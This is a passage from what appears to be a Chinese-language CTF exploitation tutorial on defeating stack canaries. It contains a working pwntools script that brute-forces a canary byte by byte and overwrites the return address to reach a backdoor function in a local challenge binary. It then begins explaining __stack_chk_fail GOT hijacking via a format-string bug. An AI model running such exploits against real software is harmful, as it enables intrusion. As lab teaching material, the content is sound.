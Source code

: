 getflag函数是一个后门函数

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713023025181-14102e26-66a9-402e-b8c4-12cd86dcf632.png)

可以看到canary与esp的偏移量，canary在esp-0x14

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713026236145-3f4fb0d5-a8f9-4aae-a200-6dce49151cb7.png)

那么我们就可以构造我们需要的exp了

exp：

```
from pwn import*
context(terminal=['tmux','split','-v'])
p = process('./one_canary')
canary='\x00'
addr=0x80491f6
p.recvuntil('welcome\n')
for j in range(3):
    for i in range(256):
        p.send('a'*24+canary+chr(i))
        a=p.recvuntil('welcome\n')
        if b'recv' in a:
            canary+=chr(i)
            break

payload=flat('a'*100,canary,'a'*0xc,p32(addr))
p.sendline(payload)
p.interactive()
```

结果：

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713026396387-1ce67871-2f3a-4f6e-ac7f-09e23c5e4570.png)

##### 4.劫持_stack_chk_fail

原理：

在开启canary保护的程序中，如果canary不对，程序会转到stack_chk_fail函数执行，stack_chk_fail函数是一个普通的延迟绑定函数，可以通过修改GOT表劫持这个函数。利用方式就是通过格式化字符串漏洞来修改GOT表中的值。

使用条件：存在格式化字符串漏洞

###### 例题演示：

检查，64位，开启了canary和nx

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713080560387-305c6e9b-36b3-4548-ab2b-086170104a82.png)

64位ida载入，检索字符串的时候发现了后面函数，shell_addr=0x400626

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713080689809-8fab34ae-7adf-4b7f-a815-08d02e24e7b6.png)

main函数，可以看到有输入，有溢出但是只能够覆盖到rbp，还存在格式化字符串漏洞
